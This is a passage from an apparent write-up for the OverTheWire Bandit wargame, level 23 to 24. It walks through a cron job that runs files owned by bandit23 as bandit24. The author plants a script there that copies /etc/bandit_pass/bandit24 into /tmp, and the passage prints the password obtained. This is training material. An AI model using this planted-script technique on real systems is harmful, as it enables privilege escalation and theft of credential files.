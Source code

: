 Another script ? that's what we like 😃

Now let's be honest, at first glance this looks intimidating, but it's nothing to be afraid of. Let's tackle the script little by little.

> Keep in mind that the script is being run automatically every minute by `bandit24`, meaning $myname is literally `bandit24`

The first thing the script does is changing directory to `/var/spool/bandit24/foo.

It then loops through all the files, if the owner of the file is `bandit23`, it executes it with a timeout of 60s preventing infinite loops.

Finally it removes the script and repeats the operation again for all the existing files.

Well, THE TIME HAS COME, we are going to create a simple script under `/var/spool/bandit24/foo`.

```bash
bandit23@bandit:~$ cd /var/spool/bandit24/
bandit23@bandit:/var/spool/bandit24$ ls -lhisa
total 12K
526632 4.0K dr-xr-x---  3 bandit24 bandit23 4.0K Feb 21 22:03 .
 80928 4.0K drwxr-xr-x  5 root     root     4.0K Feb 21 22:03 ..
526633 4.0K drwxrwx-wx 19 root     bandit24 4.0K Apr 21 16:27 foo
```

Notice that we can write and `cd` to `foo`, but we cannot read (`ls`) its content.

```bash
bandit23@bandit:/var/spool/bandit24$ cd foo/
```

Our script will simply consist of copying the password to a file we can read.

Open your favorite text editor, which is `vim` obviously, and write your script.

```bash
bandit23@bandit:/var/spool/bandit24/foo$ vim myscript
bandit23@bandit:/var/spool/bandit24/foo$ chmod +x myscript
bandit23@bandit:/var/spool/bandit24/foo$ cat myscript
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/yariss

```

Let's wait for few seconds, and then check `/tmp/yariss` content.

```bash
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/yariss
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar # et voila :)
```

We got our password 😃

> VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Level 24 --> 25

### Level credentials
